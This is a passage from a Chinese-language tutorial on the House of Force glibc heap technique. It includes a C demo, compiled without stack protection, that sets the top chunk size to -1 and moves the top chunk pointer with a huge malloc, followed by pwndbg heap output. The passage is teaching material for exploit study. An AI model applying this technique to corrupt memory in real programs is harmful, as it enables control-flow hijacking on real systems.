 但是需要注意的是，在被抬高的同时，malloc@got 附近的内容也会被修改。

```c
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
//在之前的篇幅中，你见过这个代码
```

# 向后控制内存-Demo3
在上一个示例中，我们演示了篡改top_chunk使得top_chunk指针减小来修改位于其上面 (低地址) 的 got 表中的内容。同样的，利用此方式可以修改其下面（高地址）的内容。这次同样的利用代码进行演示：

> 编译命令：gcc -g -z execstack -fno-stack-protector top_chunk_demo2.c -o top_chunk_demo2
>

```c
#include<stdio.h>
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 //<=== 修改top chunk size
    malloc(140737345551056); //<=== 增大top chunk指针
    malloc(0x10);
    return 0;
}
```

编译完成之后，开始对其进行调试，对代码的第6行下断点，看一下堆的情况：

```c
pwndbg> info local
ptr = 0x602010
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x602020
Size: 0x20fe1

pwndbg> x/16gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000021 #chunk1
0x602010:	0x0000000000000000	0x0000000000000000
    		#ptr
0x602020:	0x0000000000000000	0x0000000000020fe1 #top_chunk
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
pwndbg> 
```
